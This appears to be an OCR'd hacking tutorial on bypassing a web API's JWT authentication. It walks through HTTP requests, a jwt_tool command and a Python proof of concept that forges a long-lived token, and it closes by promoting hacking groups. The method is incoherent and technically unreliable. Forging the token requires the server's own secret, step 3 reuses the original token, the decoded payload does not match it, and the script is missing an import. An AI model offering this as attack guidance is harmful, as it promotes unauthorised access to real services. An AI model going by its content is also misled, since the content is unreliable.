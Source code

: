 ❖ API Authentication Bypass

Let's assume we have a vulnerable API endpoint: https://example.com/api/v1/users

The API uses JSON Web Tokens (JWT) for authentication. We can use a tool like Burp Suite to intercept and manipulate the JWT token.

Step 1: Intercept JWT Token

Using Burp Suite, intercept the login request and capture the JWT token:
GET /api/v1/login HTTP/1.1
Host: example.com
Content-Type: application/json

{"username": "user", "password": "pass"}
Response:
HTTP/1.1 200 OK
Content-Type: application/json

{"token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaGFuIjoiMjMwfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"}
Step 2: Analyze JWT Token

Using a tool like jwt.io, we can analyze the JWT token and find the algorithm used (HS256) and the payload:
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1643723900,
  "exp": 1644329700
}
Step 3: Bypass Authentication

We can use a tool like jwt_tool to generate a new JWT token with the same payload but with a longer expiration time (e.g., 1 year):
jwt_tool --alg HS256 --payload '{"sub": "1234567890", "name": "John Doe", "iat": 1643723900, "exp": 2147483647}' --secret-key 'your_secret_key_here'
This will generate a new JWT token with a longer expiration time. We can use this token to bypass authentication:
GET /api/v1/users HTTP/1.1
Host: example.com
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaGFuIjoiMjMwfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
PoC Code
import jwt

# Load secret key
with open('secret_key.txt', 'r') as f:
    secret_key = f.read().strip()

# Generate new JWT token with longer expiration time
payload = {'sub': '1234567890', 'name': 'John Doe', 'iat': 1643723900, 'exp': 2147483647}
new_token = jwt.encode(payload, secret_key, algorithm='HS256')

# Use new token to bypass authentication
headers = {'Authorization': f'Bearer {new_token.decode()}'}
response = requests.get('https://example.com/api/v1/users', headers=headers)
print(response.text)
Note: This is just a basic example and should not be used in production. In a real-world scenario, you should use a more sophisticated approach to bypass authentication.

Join our groups for more Hacking 
